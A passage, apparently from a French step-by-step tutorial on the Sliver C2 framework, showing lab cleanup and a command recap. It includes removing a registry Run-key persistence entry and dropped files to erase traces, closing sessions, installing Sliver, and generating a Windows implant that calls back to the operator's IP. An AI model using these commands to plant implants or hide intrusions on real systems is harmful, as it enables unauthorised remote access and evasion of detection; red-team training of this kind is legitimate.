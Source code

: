 ### **ÉTAPE 26** : Supprimer les traces
```bash
# Supprimer la persistence
execute reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "TestApp" /f

# Supprimer les fichiers
execute del C:\temp\payload.exe /f
execute del C:\temp\passwd.txt /f
```

### **ÉTAPE 27** : Fermer la session
```bash
# Terminer la session
sessions -k a1b2c3d4

# OU depuis la session
exit
```

### **ÉTAPE 28** : Arrêter Silver C2
```bash
# Arrêter les listeners
jobs -k 1

# Quitter le client
exit

# Dans le terminal serveur : Ctrl+C
```

---

## 📊 RÉCAPITULATIF DES COMMANDES ESSENTIELLES

### **Installation**
```bash
sudo apt update && sudo apt install sliver -y
```

### **Démarrage**
```bash
# Terminal 1 : Serveur
sudo sliver-server

# Terminal 2 : Client
sliver-client
```

### **Génération de payload**
```bash
# Listener
mtls --lport 443

# Payload
generate --mtls VOTRE_IP:443 --os windows --format exe --save payload.exe
```
